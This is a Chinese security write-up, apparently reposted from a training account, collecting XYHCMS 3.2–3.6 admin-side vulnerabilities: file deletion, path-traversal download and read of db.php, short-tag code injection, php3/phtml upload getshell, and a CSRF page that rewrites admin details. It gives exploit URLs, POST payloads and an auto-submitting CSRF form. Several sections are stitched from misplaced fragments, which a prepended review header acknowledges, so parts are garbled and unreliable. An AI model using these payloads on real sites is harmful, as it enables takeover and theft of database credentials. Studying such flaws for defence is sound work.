## 核对与使用边界

- 明确更正：本文是 XYHCMS 多漏洞合集。3.2 章节混用 3.5 路径，下载章节错放 Templets/edit、读文件 PoC 错放过滤代码、代码执行修复错放上传黑名单和 CSRF 表单，均属串段材料，不能作为相应补丁或成功证据。
- 坏样本保留：删除 GET 截为 delSq、POST 路径多空格、表单 name/value 缺失、第二表单缺 test_form id。`<?=` 自 PHP 5.4 的行为应与需 short_open_tag 的 `<?` 分开；phtml/php3 是否解析取决于 Web/PHP 配置。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：backendrolesforread/delete/config/upload;CSRFvictimadmin;Windowsbackslashes;shorttag/PHPsuffixhandlers;installcredentials

- **代码与转录边界（1）**：3.2章节实际样例路径3.5，必须核测试版本；删除GET在delSq截断，POST路径中多空格。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **适用与权限边界（2）**：下载章节用Templets/edit取代Database/downFile；3.5读文件POC反而贴PHP过滤条件，明显跨段错置。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（3）**：代码执行修复段贴上传扩展黑名单且又混进CSRF表单，不是该漏洞有效补丁。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（4）**：CSRF所有关键name/value多处丢失，第二份form无test_form id使脚本null.submit；无法原样复现。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（5）**：short_open_tag默认开启过强，&lt;?=PHP5.4后无条件可用与&lt;?需分清；phtml/php3执行前提省略。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（6）**：与612–619家族大量重复但包含CSRF新实体，需拆解关联而非整文删除；目录文库应移XYHCMS。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 文库XYHCMS 漏洞

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/PxdHaSrMdjs3bAUKhacilA)

**高质量的安全文章，安全 offer 面试经验分享**

**尽在 # 掌控安全 EDU #**

**作者：掌控安全 - 柚子**

### 一. XYHCMS 3.2 后台任意文件删除  

#### 漏洞介绍

影响版本是 XYHCMS 3.2，漏洞的成因是没有对删除的文件没有做任何限制，导致可以直接把安装文件删除。

#### 漏洞分析

打开

/App/Manage/Controller/DatabaseController.class.php

文件。  

锁定 delSqlFiles() 函数。



#### 漏洞复现

1. 进入后台



2. 删除安装锁文件

  
方法一：get 方式

```
http://127.0.0.1/xyhcms_3.5_20171128/uploads_code/xyhai.php?s=/Database/delSq
```

方法二：post 方式

```
http://127.0.0.1/xyhcms_3.5_20171128/uploads_code/xyhai.php?s=/Database/delSqlFiles /batchFlag/1

POST数据：key[]= ../../../install/install.lock
```

```
http://127.0.0.1/xyhcms_3.5_20171128/uploads_code/xyhai.php?s=/Database/downFile/file/..\\..\\..\\App\\Common\\Conf\\db.php/type/zip
```

3. 接下来直接访问 

http://127.0.0.1/xyhcms_3.5_20171128/uploads_code/install 重装 cms



### 二. XYHCMS 3.2 后台任意文件下载

#### 漏洞介绍

影响版本是 XYHCMS 3.2，漏洞的成因是没有对下载的文件做任何限制。

#### 漏洞分析

找到

/App/Manage/Controller/DatabaseController.class.php 文件。

锁定 downfile() 方法下载函数。

  
这里并没有对下载的文件有限制，所以我们可以通过这段代码去构造 poc。

#### 漏洞复现

1. 进入后台页面。



2. 构造 poc

```
http://127.0.0.1/XYHCms_V3.5/uploads_code/xyhai.php?s=/Templets/edit/fname/Li5cXC4uXFwuLlxcQXBwXFxDb21tb25cXENvbmZcXGRiLnBocA==
```

  
  

3. 数据库配置文件就下载下来了。

### 三. XYHCMS 3.5 任意文件读取漏洞

#### 环境准备

XYHCMS 官网：http://www.xyhcms.com/

网站源码版本：XYHCMS V3.5（2017-12-04 更新）

程序源码下载：http://www.xyhcms.com/Show/download/id/2/at/0.html



#### 漏洞分析

漏洞文件位置：/App/Manage/Controller/TempletsController.class.php

第 59-83 行：  

  
声明了 3 个变量：

$ftype 文件类型；

$fname 文件名；

$file_path 文件路径

这段代码对提交的参数进行处理，然后判断是否 POST 数据上来

如果有就进行保存等，如果没有 POST 数据，将跳过这段代码继续向下执行。



通过这段代码，我们发现可以通过 GET 传入 fname，跳过前面的保存文件过程，进入文件读取状态。

  
问题就出现在这里，对 fname 进行 base64 解码，判断 fname 参数是否为空，拼接成完整的文件路径，然后判断这个文件是否存在，读取文件内容。

对 fname 未进行任何限制，导致程序在实现上存在任意文件读取漏洞，可以读取网站任意文件，攻击者可利用该漏洞获取敏感信息。

我们可以通过 GET 方式提交 fname 参数，并且将 fname 进行 base64 编码，构造成完整的路径，读取配置文件信息。  

#### 漏洞复现

登录网站后台

  
数据库配置文件路径：\App\Common\Conf\db.php

  
  

我们将这段组成相对路径，..\..\..\App\Common\Conf\db.php，

然后进行 base64 编码，

Li5cXC4uXFwuLlxcQXBwXFxDb21tb25cXENvbmZcXGRiLnBocA==

[POC] 最后构造的链接如下：

```
if (stripos($data[$key], '<?php') !== false || preg_match($preg_param, $data[$key])) {
                    $this->error('禁止输入php代码');
                }
```



#### 修复建议

1.  取消 base64 解码，过滤.(点) 等可能的恶意字符。
    
2.  正则判断用户输入的参数的格式，看输入的格式是否合法：这个方法的匹配最为准确和细致，但是有很大难度，需要大量时间配置。
    

### 四. xyhcms 3.6 后台代码执行漏洞

#### 漏洞描述

XYHCMS 是一款开源的 CMS 内容管理系统。

XYHCMS 后台存在代码执行漏洞，攻击者可利用该漏洞在 site.php 中增加恶意代码，从而可以获取目标终端的权限。

代码中使用黑名单过滤 <?php 却忘记过滤短标签，导致后台系统设置 - 网站设置处可使用短标签在站点表述处 getshell。

#### 漏洞分析

按步骤安装好网站之后，找到../App/Runtime/Data/config/site.php 这个文件。



找到对应功能看他是怎么控制的。  





很明显，我们要去找一个 System 相关的控制器。

  
这里可以锁定 App/Manage/Controller/SystemController.class.php 这个文件。

  
  

```
<?=phpinfo();?>
```

  
但是我们看到这里让开启了短标签，（PHP 默认是开启 PHP 短标签的，即默认情况下 short_open_tag=ON）<?=，它和 <? echo 等价， 从 PHP 5.4.0 起， <?= 总是可用的

#### 漏洞复现

找到后台—系统设置—网站设置


```
if (stripos($data[$key], '<?php') !== false || ($short_open_tag && stripos($data[$key], '<?') !== false) || preg_match($preg_param, $data[$key])) {
    $this->error('禁止输入php代码');
                }
```

就可以很简单的绕过限制。



#### 修复方法

官方已经在最新版修复，简单粗暴的过滤

```
if (!empty($data['CFG_UPLOAD_FILE_EXT'])) {
                $data['CFG_UPLOAD_FILE_EXT'] = strtolower($data['CFG_UPLOAD_FILE_EXT']);
                $_file_exts = explode(',', $data['CFG_UPLOAD_FILE_EXT']);
                $_no_exts = array('php', 'asp', 'aspx', 'jsp');
                foreach ($_file_exts as $ext) {
                    if (in_array($ext, $_no_exts)) {
                        $this->error('允许附件类型错误！不允许后缀为：php,asp,aspx,jsp！');
                    }
                }
            }
```

```
<html>
  <head>
      <script>
          function submit(){
            var form = document.getElementById('test_form');
            form.submit();

          }
</script>
  </head>
    <body onload="submit()">


  <script>history.pushState('', '', '/')</script>
    <form action="http://xyh.com/xyhai.php?s=/Auth/editUser" method="POST" id="test_form">
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden" name="department[]" value="1" />
      <input type="hidden" name="department[]" value="4" />
      <input type="hidden" name="department[]" value="3" />
      <input type="hidden" name="group_id[]" value="1" />
      <input type="hidden"  />
      <input type="hidden" aa@test.com" />
      <input type="hidden"  />
    </form>
  </body>
</html>
```

### 五. XYHCMS 3.6 后台文件上传 getshell

#### 漏洞介绍

此漏洞的影响范围是 XYHCMS 3.6。

漏洞形成原因是：对后缀过滤不严，未过滤 php3-5，phtml（老版本直接未过滤 php）。

#### 漏洞分析

找到

/App/Manage/Controller/SystemController.class.php 文件中第 246-255 行代码

```
if (!empty($data['CFG_UPLOAD_FILE_EXT'])) {
                $data['CFG_UPLOAD_FILE_EXT'] = strtolower($data['CFG_UPLOAD_FILE_EXT']);
                $_file_exts = explode(',', $data['CFG_UPLOAD_FILE_EXT']);
                $_no_exts = array('php', 'asp', 'aspx', 'jsp');
                foreach ($_file_exts as $ext) {
                    if (in_array($ext, $_no_exts)) {
                        $this->error('允许附件类型错误！不允许后缀为：php,asp,aspx,jsp！');
                    }
                }
            }
```

  
会看到她不允许的文件后缀有：php,asp,aspx,jsp。

我们可以通过这个思路，上传 php3-5，phtml 文件后缀的文件就能够绕过限制。  

#### 漏洞复现

1. 进入后台

  
2. 系统设置 -> 网站设置 -> 上传配置 -> 允许附件类型

  
3. 添加类型 php3 或 php4 或 php5 或 phtml

  
  

4. 点击下面的 水印图片上传上传以上后缀 shell

  
5. 之后会在图片部分显示上传路径



### 六. XYHCMS 3.6 CSRF 漏洞

#### 漏洞介绍

此版本存在一个 csrf 漏洞，可以更改管理员的任何信息（姓名、电子邮件、密码等）。

#### 漏洞复现

poc：

```
<html>
  <head>
      <script>
          function submit(){
            var form = document.getElementById('test_form');
            form.submit();
          }
</script>
  </head>
    <body onload="submit()">
  <script>history.pushState('', '', '/')</script>
    <form action="http://xyh.com/xyhai.php?s=/Auth/editUser" method="POST">
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden" name="department[]" value="1" />
      <input type="hidden" name="department[]" value="4" />
      <input type="hidden" name="department[]" value="3" />
      <input type="hidden" name="group_id[]" value="1" />
      <input type="hidden"  />
      <input type="hidden" aa@test.com" />
      <input type="hidden"  />
    </form>
  </body>
</html>
```

1. 修改前如下图所示：  

  
2. 打开 poc.html

  
3. 修改后如下图所示：



  

**回顾往期内容**

[Xray 挂机刷漏洞](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247504665&idx=1&sn=eb88ca9711e95ee8851eb47959ff8a61&chksm=fa6baa68cd1c237e755037f35c6f74b3c09c92fd2373d9c07f98697ea723797b73009e872014&scene=21#wechat_redirect)  

[POC 批量验证 Python 脚本编写](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247504664&idx=1&sn=e88c77671f252631de939c154de075db&chksm=fa6baa69cd1c237f1c1f35f8b434874341f7fe077452834dac0e289addf9ac56fcbf7df5a8a1&scene=21#wechat_redirect)

[实战纪实 | SQL 漏洞实战挖掘技巧](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247497717&idx=1&sn=34dc1d10fcf5f745306a29224c7c4008&chksm=fa6b8e84cd1c0792f0ec433310b24b4ccbe53354c11f334a1b0d5f853d214037bdba7ea00a9b&scene=21#wechat_redirect)  

